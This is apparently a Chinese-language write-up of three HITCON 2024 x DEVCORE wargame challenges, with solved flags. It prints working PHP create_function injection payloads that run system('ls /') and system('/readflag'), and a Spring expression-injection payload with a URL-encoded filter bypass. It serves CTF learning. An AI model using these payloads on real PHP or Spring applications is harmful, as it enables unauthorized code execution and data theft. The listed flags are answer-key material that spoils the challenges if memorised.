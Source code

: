 ```yaml
---
title: "HITCON 2024 x DEVCORE Wargame"
date: 2024-8-12
categories: [writeup]
---
```


# Welcome

![image]({{site.baseurl}}/assets/images/HITCON-2024-x-DEVCORE-Wargame/welcome.png)

使用[線上工具](https://www.dcode.fr/rc4-cipher)解密

![image]({{site.baseurl}}/assets/images/HITCON-2024-x-DEVCORE-Wargame/welcome-solve.png)

flag: `DEVCORE{h0pe_y0u_enj0y_0ur_wargame}`

# Supercalifragilisticexpialidocious

明顯 `create_function('', $code);` 有洞。

![image]({{site.baseurl}}/assets/images/HITCON-2024-x-DEVCORE-Wargame/Supercalifragilisticexpialidocious.png)

使用 [exploitDB](https://www.exploit-db.com/exploits/32417) 的 payload

payload: `return -1 * var_dump($a[""]);}phpinfo();/*"]`

成功看到 `phpinfo()`。

![image]({{site.baseurl}}/assets/images/HITCON-2024-x-DEVCORE-Wargame/Supercalifragilisticexpialidocious-phpinfo.png)

payload: `return -1 * var_dump($a[""]);}system('ls /');/*"]`

發現 `/readflag`。

![image]({{site.baseurl}}/assets/images/HITCON-2024-x-DEVCORE-Wargame/Supercalifragilisticexpialidocious-ls.png)

payload: `return -1 * var_dump($a[""]);}system('/readflag');/*"]`

執行成功取得 flag。

![image]({{site.baseurl}}/assets/images/HITCON-2024-x-DEVCORE-Wargame/Supercalifragilisticexpialidocious-readflag.png)

flag: `DEVCORE{o1d_th1ng_1s_g00d}`

# Expressionism

在 `IndexController.java` 看到 `FLAG` 被放在 session。

```java
session.setAttribute("FLAG", System.getenv("FLAG"));
```

`index.jsp` 中有可以 injection 的地方。

```jsp
<p><spring:message code="life.quotes.${id}" /></p>
```

在 [Hack tricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#spring-framework-java) 找到可用 `${}` injection。

payload: `/?id=${FLAG}`

送出後發現有違法字元。

![image]({{site.baseurl}}/assets/images/HITCON-2024-x-DEVCORE-Wargame/Expressionism-payload.png)

payload: `/?id=%24%7BFLAG%7D`

把 payload 做 url encoding 後再試一次，成功取得 flag。

![image]({{site.baseurl}}/assets/images/HITCON-2024-x-DEVCORE-Wargame/Expressionism-success.png)

flag: `DEVCORE{d1d_y0u_kn0w_th1s_b3f0r3}`